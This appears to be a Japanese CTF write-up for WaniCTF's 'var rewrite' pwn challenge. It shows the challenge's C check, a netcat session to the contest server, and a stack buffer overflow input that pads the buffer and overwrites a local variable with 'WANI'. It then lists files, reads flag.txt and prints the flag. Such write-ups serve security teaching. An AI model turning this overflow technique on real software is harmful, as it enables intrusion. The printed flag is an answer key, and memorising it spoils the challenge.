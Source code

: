 # var rewrite:PWN:pts
nc var.wanictf.org 9002  
- stackの仕組みを理解する必要があります。  
- ローカル変数はstackに積まれます。  
- ローカル変数を書き換えて下さい。  

使用ツール例  
- [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Smash Stack Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn02](pwn02)　　　　[pwn02.c](pwn02.c)  

# Solution
stackの変数を書き換えればいいようだ。  
pwn02.cの以下に注目する。  
```c
~~~
    if (strncmp(target, "WANI", 4) == 0)
    {
        win();
    }
    else
    {
        printf("target = %s\n", target);
    }
~~~
```
変数をWANIにすればよい。  
stackが見える親切設計なのでパディングはすぐにわかる。  
```bash
$ nc var.wanictf.org 9002
What's your name?: AAAAAAAAAA
hello AAAAAAAAAA!
target =

***start stack dump***
0x7ffe6852dc00: 0x00007ffe6852dc20 <- rsp
0x7ffe6852dc08: 0x4141414141410790
0x7ffe6852dc10: 0x4b43410041414141
0x7ffe6852dc18: 0x0000000b00455341
0x7ffe6852dc20: 0x00007ffe6852dc30 <- rbp
0x7ffe6852dc28: 0x00000000004009b6 <- return address
***end stack dump***

What's your name?: AAAAAAAAAAAAAAA
hello AAAAAAAAAAAAAAA!
target = AAAAA

***start stack dump***
0x7ffe6852dc00: 0x00007ffe6852dc20 <- rsp
0x7ffe6852dc08: 0x4141414141410790
0x7ffe6852dc10: 0x4141414141414141
0x7ffe6852dc18: 0x0000001000450041
0x7ffe6852dc20: 0x00007ffe6852dc30 <- rbp
0x7ffe6852dc28: 0x00000000004009b6 <- return address
***end stack dump***

What's your name?: AAAAAAAAAAWANI
hello AAAAAAAAAAWANI!
Congratulation!
ls
chall
flag.txt
redir.sh
cat flag.txt
FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}
^C
```
flagが得られた。  

## FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}